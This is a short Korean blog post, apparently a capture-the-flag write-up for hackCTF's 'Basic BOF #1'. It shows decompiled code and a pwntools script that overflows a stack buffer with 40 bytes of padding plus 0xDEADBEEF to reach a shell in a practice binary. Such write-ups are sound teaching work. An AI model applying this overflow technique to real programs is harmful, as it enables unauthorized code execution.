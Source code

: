 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
---
```

hackCTF pwnable 첫번째 문제

## ida
***
```
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin);
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 )
      puts("\nYou are on the right way!");
    if ( v5 == -559038737 )
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash");
      puts("Shell closed! Bye.");
    }
    return 0;
```   
코드를 보면 v5가 -559038737일 때 shell을 실행할 수 있다.   
우리가 직접 수정할 수 있는 건 s이다.   
payload를 v5까지 덮을 수 있도록 만들자.      

## exploit.py
***
```
  #!/usr/bin/python
  from pwn import *
  
  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```
-559038737는 hex로 0xDEADBEEF다. p32 방식으로 패킹해서 payload를 만들면 끗.
p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
